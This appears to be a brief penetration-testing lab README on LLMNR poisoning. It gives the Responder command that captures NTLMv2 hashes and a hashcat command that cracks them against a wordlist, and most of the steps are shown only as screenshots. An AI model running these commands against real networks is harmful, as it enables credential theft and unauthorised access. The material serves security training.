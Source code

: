 ## LLMNR Poisoning - Capturing NTLMv2 Hashes

$ ifconfig </br>
$ sudo responder -I eth0

![llmnr-capture-ntlmv2hash-1](https://github.com/user-attachments/assets/bb5bc126-3932-4d78-bf94-5bdab72f4557)

</br>


![llmnr-capture-ntlmv2hash-2](https://github.com/user-attachments/assets/73eaf2a2-3ceb-4bfb-9e29-abcc2e1235d6)


## Trigger an LLMNR Event

![llmnr-capture-ntlmv2hash-3](https://github.com/user-attachments/assets/5301373a-0bf0-49e8-9830-d2a52a858acc)



![llmnr-capture-ntlmv2hash-4](https://github.com/user-attachments/assets/a75c11b5-bbb6-4470-a9db-da04be7a9f5a)


## Dumping NTLMv2 Hashes
![llmnr-capture-ntlmv2hash-5](https://github.com/user-attachments/assets/d26280ff-4be6-4117-aca5-c3ab9b35f163)


## Save Hash to a file
![llmnr-capture-ntlmv2hash-6](https://github.com/user-attachments/assets/212944c3-ccbc-4aab-aa8f-bd30558ed49f)


## Use Hashcat to crack the hash 

$ hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt

![llmnr-capture-ntlmv2hash-7](https://github.com/user-attachments/assets/b686e734-88df-42f8-902f-05836a141529)

## Use John to crack the hash 

![llmnr-capture-ntlmv2hash-8](https://github.com/user-attachments/assets/022ef5f9-a64a-4fec-936f-b5a041849694)
